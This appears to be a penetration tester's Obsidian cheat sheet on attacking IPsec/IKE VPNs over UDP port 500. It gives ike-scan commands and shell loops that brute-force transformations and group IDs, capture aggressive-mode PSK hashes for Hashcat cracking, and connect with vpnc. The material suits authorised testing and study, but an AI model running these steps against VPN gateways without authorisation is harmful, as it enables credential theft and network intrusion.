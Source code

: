 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
*Internet Security Association and Key Management Protocol* (ISAKMP) is a framework for managing message formats and procedures for establishing Security Associations (SAs) and managing cryptographic keys between two hosts on an IP Network, particularly for IPsec VPNs (LAN-to-LAN) and remote users to a network gateway.

**Standard Port:** 
- 500/udp

[Hacktricks](https://book.hacktricks.wiki/en/network-services-pentesting/ipsec-ike-vpn-pentesting.html?highlight=500/udp#500udp---pentesting-ipsecike-vpn)
## How it works
First the establishment of the *Security Association* (SA) between two points managed by IKE:
1. A secure channel is created between two endpoints using either a Pre-Shared Key (`PSK`) or certificates, using either Main mode (which uses three pairs of messages) or Aggressive mode.
2. Although not mandatory, Extended Authentication Phase is when the identify of the user attempting to connect is verified by username and password.
3. Negotiation of parameters for securing data with ESP and AH happens next. It allows for using different algorithms to the first phase, ensuring *Perfect Forward Secrecy* (*PFS*)
![[Pasted image 20251007163020.png]]
## Enumeration Checklist
### Identify valid transformations
IPSec can be configured to only accept one or a few transformations (these are combinations of values). Each transformation contains a number of attributes like:
- Encryption algorithm : eg. DES, 3DES
- Integrity algorithm : eg. SHA, MD5
- Authentication type : eg. Pre-Shared Key (PSK)
- Distribution algorithm : eg. Diffie-Hellman 1 or 2
- Lifetime : in seconds

First we need to find a valid transformation so we can talk with the server, we can use `ike-scan` to do this as it will send a single proposal with eight transformations inside:
```bash
ike-scan -M [ip]
```
```bash
Starting ike-scan 1.9 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
172.16.21.200    Main Mode Handshake returned
    HDR=(CKY-R=d90bf054d6b76401)
    SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
    VID=4048b7d56ebce88525e7de7f00d6c2d3c0000000 (IKE Fragmentation)

Ending ike-scan 1.9: 1 hosts scanned in 0.015 seconds (65.58 hosts/sec). 1 returned handshake; 0 returned notify
```
> Some points to note here:
> - Auth is PSK (this is good for pentesting)
> - `1 returned handshake; 0 returned notify` means the target is configured for IPsec and is willing to perform IKE negotiation, and either one or more of the proposed transformations are acceptable (the valid transformation is shown in the output)
> - `0 returned handshake; 0 returned notify` means its not an IPsec gateway
> - `1 returned handshake; 1 returned notify` means none of the transformations were accepted (*Some VPN gateways won't do this annoyingly*), if this is the case we can [[#Brute force a valid transformation]]
#### Brute force a valid transformation
```bash
for ENC in 1 2 3 4 5 6 7/128 7/192 7/256 8; do for HASH in 1 2 3 4 5 6; do for AUTH in 1 2 3 4 5 6 7 8 64221 64222 64223 64224 65001 65002 65003 65004 65005 65006 65007 65008 65009 65010; do for GROUP in 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18; do echo "--trans=$ENC,$HASH,$AUTH,$GROUP" >> ike-dict.txt ;done ;done ;done ;done
```
Then brute-force each one using `ike-scan`:
```bash
while read line; do (echo "Valid trans found: $line" && sudo ike-scan -M $line [IP]) | grep -B14 "1 returned handshake" | grep "Valid trans found" ; done < ike-dict.txt
```
If we still can't find one, it may be that the server isn't responding without handshakes (even to valid transformations). Therefore, you can do the same brute-force but for aggressive mode:
```bash
while read line; do (echo "Valid trans found: $line" && ike-scan -M --aggressive -P handshake.txt $line <IP>) | grep -B7 "SA=" | grep "Valid trans found" ; done < ike-dict.txt
```
> You can also use [iker.py](https://github.com/isaudits/scripts/blob/master/iker.py) or [ikeforce](https://github.com/SpiderLabs/ikeforce) to do these attacks.

### Attempt to fingerprint the VPN provider
```bash
ike-scan -M --showbackoff [ip]
```
or with [[Nmap]] script `ike-version`

### Finding the correct ID (group name)
When doing an `ike-scan`, if Vendor IDs and XAUTH show up, we might be able to try aggressive mode to see if any service leaked identity or PSK material show up:
```bash
ike-scan -A -P psk.txt [ip]
```
> from here we may be able to get the ID

To be able to capture a hash we need to use the valid transformation supporting aggressive mode and the correct ID (group name). We will likely have to brute-force the group name.
```bash
ike-scan -P -M -A -n fakeID [ip]
```
> this method will only work if it DOES NOT send back a hash, if it does, then its likely creating a fake hash for our fake user so it won't be good for brute-forcing.

If no hash is returned from above, we can proceed with :
```bash
while read line; do (echo "Found ID: $line" && sudo ike-scan -M -A -n $line <IP>) | grep -B14 "1 returned handshake" | grep "Found ID:"; done < /usr/share/wordlists/external/SecLists/Miscellaneous/ike-groupid.txt
```
> We can also use the [dictionary of ikeforce](https://github.com/SpiderLabs/ikeforce/blob/master/wordlists/groupnames.dic) or https://book.hacktricks.wiki/files/vpnIDs.txt which is a combination of both without duplicates

Alternatively, we can try:
- [iker.py](https://github.com/isaudits/scripts/blob/master/iker.py) which uses `ike-scan` but follows its own method to find a valid ID based on the output of ike-scan
- [ikeforce.py](https://github.com/SpiderLabs/ikeforce) which will try to use different exploits to distinguish between valid and non-valid IDs (can have false positives/negatives)

### Capturing the Hash
If we have a valid transformation and the group name and aggressive mode is enable, we can grab the hash:
```bash
ike-scan -M -A -n <ID> --pskcrack=hash.txt <IP> #If aggressive mode is supported and you know the id, you can get the hash of the password
```
this can then be cracked as a normal hash with [[Hashcat]] mode - MD5 : 5300 - SHA1 : 5400

### Connecting to an IPSec VPN
In Kali, we use `VPNC` so we need this connection file in `/etc/vpnc/[filename].conf`
```
IPSec gateway [VPN_GATEWAY_IP]
IPSec ID [VPN_CONNECTION_ID]
IPSec secret [VPN_GROUP_SECRET]
IKE Authmode psk 
Xauth username [VPN_USERNAME]
Xauth password [VPN_PASSWORD]
```
Then we can use:
```bash
vpnc [filename]
```
This will start it in the background and connect us to the VPN.